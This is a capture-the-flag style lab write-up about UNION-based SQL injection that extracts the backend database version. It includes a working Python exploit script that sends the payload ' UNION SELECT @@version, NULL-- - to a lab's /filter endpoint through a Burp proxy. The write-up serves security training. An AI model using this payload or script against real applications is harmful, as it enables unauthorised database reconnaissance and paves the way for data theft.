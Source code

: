 ```yaml
---
title: '4 SQLi Lab'
description: 'Using UNION-based SQL injection to extract database type and version on MySQL and Microsoft SQL Server.'
---
```



## SQL injection attack, querying the database type and version on MySQL and Microsoft

<div style="text-align: justify;">
  This lab demonstrated how SQL injection vulnerabilities can be exploited to reveal system-level information about the backend database. Specifically, the injection targeted a parameter using a `UNION SELECT` with the `@@version` system variable, which allowed the attacker to retrieve the database version—useful for tailoring further attacks based on the environment (e.g., MySQL vs. Microsoft SQL Server).

  The attack began by analyzing the application's request to the `/filter` endpoint, where the `category` parameter was found vulnerable to injection. By crafting a payload that appended a malicious SQL statement, the server responded with the version string embedded in the page content. This knowledge helps in identifying the DBMS and optimizing payloads for privilege escalation or data extraction.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works

- The `category` parameter is vulnerable to SQL injection.
- A crafted `UNION SELECT` query is used to inject `@@version` into the SQL query.
- The version string (e.g., `MySQL 5.x` or `Microsoft SQL Server`) is returned in the response.
- The script checks for known indicators like the word “ubuntu” to verify success.
- Minor adjustments may be needed depending on the lab environment's output.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli(url, payload):
    uri = '/filter?category='
    r = requests.get(url + uri + payload , verify=False, proxies=proxies)
    if "ubuntu" in r.text:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = '\' UNION SELECT @@version, NULL-- -'
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com ' % sys.argv[0])
        sys.exit(-1)    
        
    if exploit_sqli(url, payload):
        print("[+] SQL injection successful!")
    else:
        print("[-] SQL injection unsuccessful")        
```


<Comment />
